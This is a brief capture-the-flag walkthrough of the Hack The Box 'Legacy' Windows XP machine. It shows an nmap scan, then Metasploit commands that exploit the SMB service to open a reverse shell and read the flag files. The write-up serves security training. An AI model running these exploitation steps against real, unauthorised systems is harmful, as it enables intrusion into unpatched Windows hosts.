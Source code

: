 # HTB Legacy
# OS: Windows
# Difficulty: Easy

# Enumeration:
I'll start with a port scan.
```bash
nmap -oN outputNMAP.txt -sC -sV -p- 10.129.179.141
```

```bash
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2024-08-24T12:25:09+03:00
|_nbstat: NetBIOS name: nil, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:94:bd:ba (VMware)
|_clock-skew: mean: 5d00h27m39s, deviation: 2h07m16s, median: 4d22h57m39s
```

# Foothold:
The port scan reveals that the OS is outdated.
I'll open msfconsole and use an exploit for Windows SMB service.

```bash
sudo msfconsole -q
search exploit/windows/smb/ xp
use 69
set RHOSTS 10.129.179.141
set LHOST tun0
exploit

getuid
```
[shell](IMG/IMG1.png)

It worked.

# Flags:

Let's get the flags:
```bash
cd C:\\Documents\ and\ Settings
cat Administrator\\Desktop\\root.txt

cat john\\Desktop\\user.txt
```

### We got the flags!
